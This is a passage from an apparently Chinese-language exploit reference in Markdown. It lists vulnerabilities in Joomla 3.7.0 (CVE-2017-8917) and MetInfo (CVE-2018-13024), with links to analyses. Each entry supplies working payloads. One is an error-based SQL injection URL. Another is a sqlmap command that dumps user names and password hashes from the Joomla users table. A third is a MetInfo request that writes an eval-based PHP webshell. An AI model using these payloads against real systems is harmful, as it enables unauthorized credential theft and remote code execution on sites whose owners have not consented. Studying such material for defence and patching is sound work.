    Joomla 于5月17日发布了新版本 3.7.1,本次更新中修复一个高危SQL注入漏洞,成功利用该漏洞后攻击者可以在未授权的情况下进行 SQL 注入。

- 影响版本
    - joomla 3.7.0

- 文章
    - [Joomla! 3.7 Core SQL 注入 (CVE-2017-8917)漏洞分析](https://paper.seebug.org/305/)

- POC | Payload | exp
    ```
    http://你的 IP 地址:端口号/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
    ```

    sqlmap payload
    ```bash
    sqlmap -u "http://192.168.1.1/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -T '#__users' -C name,password --dump
    ```

---

## MetInfo

> 官网: https://www.metinfo.cn/

**文章**
- [MetInfo5.3.19安装过程过滤不严导致Getshell](https://bbs.ichunqiu.com/thread-35305-1-17.html)
- [MetInfo6.0.0漏洞集合(一)](https://bbs.ichunqiu.com/thread-43416-1-7.html)
- [MetInfo6.1.0 漏洞(二)](https://bbs.ichunqiu.com/thread-43625-1-4.html)
- [Metinfo 6.1.2 SQL注入](https://bbs.ichunqiu.com/thread-46687-1-1.html)
- [metinfo最新版本后台getshell](https://bbs.ichunqiu.com/thread-29686-1-2.html)
- [Metinfo7的一些鸡肋漏洞](https://evi1.cn/post/metinfo7-bug/)
- [Metinfo7.0 SQL Blind Injection](https://github.com/T3qui1a/metinfo_sqlinjection/issues/1)

**CVE-2018-13024**
- 简介

    远程攻击者可通过向 admin/column/save.php 文件发送 `module` 参数利用该漏洞向 .php 文件写入代码并执行该代码.

- 影响版本
    - MetInfo 5.3.16
    - MetInfo 6.0.0

- 文章
    - [CVE-2018-13024复现及一次简单的内网渗透](https://www.freebuf.com/news/193748.html)

- POC | Payload | exp

    - `admin/column/save.php?name=123&action=editor&foldername=upload&module=22;@eval($_POST[1]);/*`

---

## ThinkCMF
